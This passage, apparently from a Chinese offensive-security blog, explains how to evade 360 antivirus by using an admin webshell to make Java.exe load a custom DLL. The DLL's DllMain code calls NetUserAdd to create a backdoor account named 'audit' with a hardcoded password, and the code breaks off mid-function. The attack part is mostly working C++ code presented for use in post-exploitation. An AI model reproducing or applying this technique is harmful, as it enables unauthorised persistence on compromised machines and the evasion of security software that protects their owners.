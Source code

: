 在之前的文章中有简单总结过Dll的一些知识，这里就不做详细介绍了：

- [DllMain与rundll32详解](https://payloads.online/archivers/2019-10-02/1/)
- [DLL Hijacking & COM Hijacking ByPass UAC - 议题解读](https://payloads.online/archivers/2018-12-22/1/#0x02-dll%E6%98%AF%E4%BB%80%E4%B9%88)

在Windows操作系统中，每一个进程加载一个DLL都会默认执行DLLMain函数，利用这个加载的特性我们可以在Java.exe进程中做一些敏感操作，并且这个进程是白名单、签名的。

## 0x05 实战绕过数字杀毒添加用户

前提条件：

- 有一个管理员权限的Webshell
- 编写一个添加用户的DLL

首先上传之前写好的专门用于加载DLL的JSP文件，然后编写一个添加用户的DLL文件：

```cpp

// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <windows.h>
#include <string.h>
#include <lmaccess.h>
#include <lmerr.h>
#include <Tchar.h>
#pragma comment(lib,"netapi32.lib")

DWORD CreateAdminUserInternal(void)
{
	NET_API_STATUS rc;
	BOOL b;
	DWORD dw;

	USER_INFO_1 ud;
	LOCALGROUP_MEMBERS_INFO_0 gd;
	SID_NAME_USE snu;

	DWORD cbSid = 256;	// 256 bytes should be enough for everybody :)
	BYTE Sid[256];

	DWORD cbDomain = 256 / sizeof(TCHAR);
	TCHAR Domain[256];

	//
	// Create user
	// http://msdn.microsoft.com/en-us/library/aa370649%28v=VS.85%29.aspx
	//

	memset(&ud, 0, sizeof(ud));

	ud.usri1_name = (LPWSTR)TEXT("audit");						// username
	ud.usri1_password = (LPWSTR)TEXT("Test123456789!");				// password
	ud.usri1_priv = USER_PRIV_USER;					// cannot set USER_PRIV_ADMIN on creation
	ud.usri1_flags = UF_SCRIPT | UF_NORMAL_ACCOUNT;	// must be set
	ud.usri1_script_path = NULL;

	rc = NetUserAdd(
		NULL,			// local server
		1,				// information level
		(LPBYTE)&ud,
		NULL			// error value
	);

	if (rc != NERR_Success) {
		_tprintf(_T("NetUserAdd FAIL %d 0x%08x\r\n"), rc, rc);
```